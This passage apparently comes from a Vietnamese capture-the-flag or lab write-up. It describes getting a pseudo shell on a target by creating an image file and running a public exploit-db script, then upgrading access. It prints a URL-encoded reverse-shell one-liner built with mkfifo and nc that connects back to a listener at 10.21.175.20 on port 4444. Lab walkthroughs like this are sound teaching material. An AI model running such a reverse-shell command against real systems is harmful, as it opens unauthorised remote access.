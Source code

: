 - Tạo một file ảnh `SecSignal.jpg` sau đó thực thi script tương ứng từ exploit database https://www.exploit-db.com/exploits/46481

![Hoang](Images/15.png)

- Thu được shell tới hệ thống

- Tuy nhiên đây có vẻ chỉ là một Pseudo shell nên không có quyền đầy đủ, vì vậy, tạo một reverse shell mới đến hệ thống.

![Hoang](Images/16.png)

- Url encode shell tạo được

```bash                                                      
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.21.175.20%204444%20%3E%2Ftmp%2Ff
```

![Hoang](Images/18.png)